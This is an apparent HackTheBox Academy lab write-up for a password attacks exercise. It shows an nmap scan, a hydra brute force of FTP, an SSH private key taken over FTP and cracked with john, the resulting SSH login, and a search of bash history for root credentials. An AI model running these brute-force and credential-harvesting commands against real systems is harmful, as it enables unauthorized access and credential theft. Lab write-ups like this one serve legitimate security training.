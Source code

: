 # Password Attacks Lab - Easy  

[Password Attacks Lab - Easy](https://academy.hackthebox.com/module/147/section/1334)  

## Enumeration  

>Nmap Scans and the results:  

```
sudo nmap -p- 10.129.218.52

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
```  

>NMAP version and service scan:  

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
```  

### FTP  

>FTP anonymous login fails.  


## Password Wordlists   

>[Password Mutations](https://academy.hackthebox.com/module/147/section/1391)  

>Using the wordlist resources supplied, and the `custom.rule` to create mutation list of the provide password wordlist.  

>Hashcat will apply the rules of custom.rule for each word in password.list and store the mutated version in our mut_password.list  

```
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```  

## Password Attacks  

>Targeting FTP service with `hydra` and the list of usernames and the list of passwords.  

```
hydra -L resources/demo-users.lst -P resources/demo-pass.lst ftp://10.129.218.52
```  

![Password Attacks Lab-Easy](/images/Password-Attacks-Lab-Easy.png)  

>Password brute force Results:  

```
[21][ftp] host: 10.129.218.52   login: mike   password: 7777777
```  

## Foothold  

>With the obtained username `mike` and his password of `7777777`, we target FTP.  

```
ftp 10.129.218.52
ls -al
get id_rsa
```  

>Crack the `id_rsa` password with `ssh2john id_rsa >ssh.hash`.

>Using John to rip the password from `ssh.hash`:  

```
john --wordlist=../resources/demo-pass.lst ssh.hash
```  

### SSH  

>Combine the `id_rsa` key with the password, gain access as user `mike`.

```
ssh mike@10.129.218.52 -i id_rsa
```  

## Lateral Movement

>Hunting for passwords, by checking bash history for root credentials.  

```
cat .bash_history
```  

![Password Attacks Lab-Easy2](/images/Password-Attacks-Lab-Easy2.png)  

